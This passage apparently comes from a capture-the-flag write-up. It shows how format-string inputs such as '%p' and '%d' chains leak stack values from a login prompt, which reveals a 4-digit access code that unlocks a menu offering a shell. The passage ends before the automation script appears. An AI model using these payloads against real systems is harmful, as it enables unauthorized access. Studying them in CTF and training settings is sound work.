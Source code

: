 Given a login prompt, we could try to overflow the input buffer in an attempt for a stack overflow. The problem with this approach would be that we don't have the binary to do analysis after the overflow. After a nice, hot shower (where all the CTF solutions are generated), the exploitation vector that makes the most sense is looking at format strings.

Let's give some format strings a go!

```
ACCESS CODE: %x.%x.%x.%x.%x.
ERROR #4: WHAT IS THIS, AMATEUR HOUR?
```

Herm.. are they filtering on `%x`? Let's try a different format string.

```
ACCESS CODE: %p.%p.%p.%p.
ERROR #1: INVALID ACCESS CODE: 0xbfcf8b1c.(nil).0x2691.0xbfcf8b1c.
```

Bingo! So we now know that this input is vulnerable to malicious format strings. Since we are looking for a 4 digit access code, we can assume it is probably stored on the stack. Let's try to use `%d`.

```
ACCESS CODE: %d.%d.%d.%d.%d.%d.
ERROR #1: INVALID ACCESS CODE: -1076917476.0.6970.-1076917476.0.10.
```

Ah! What is in the third slot here: `6970`. Let's try that access code:

```
ACCESS CODE: 6970

--------------------------------------------------------------
SESSION: ID-6439
  AUTH   [Y]    REPORT [N]    MENU   [Y]  
  --------------------------------------------------------------


  1  - CREATE REPORT
  2  - VIEW CODE REPOSITORY
  3  - UPDATE SESSION NAME
  4  - SHELL
  5  - LOG OFF

  ENTER COMMAND: 
```

And we are in! Before we proceed further, let's modify our script to automatically get past the access code:

* Send `%d.%d.%d.%d.%d.%d`
* Extract the third element (access code)
* Submit the access code for login

From here, we'll keep adding snippets of code to the script, but for the sake of brevity of the writeup, only the new code will be shown. Our result is below:
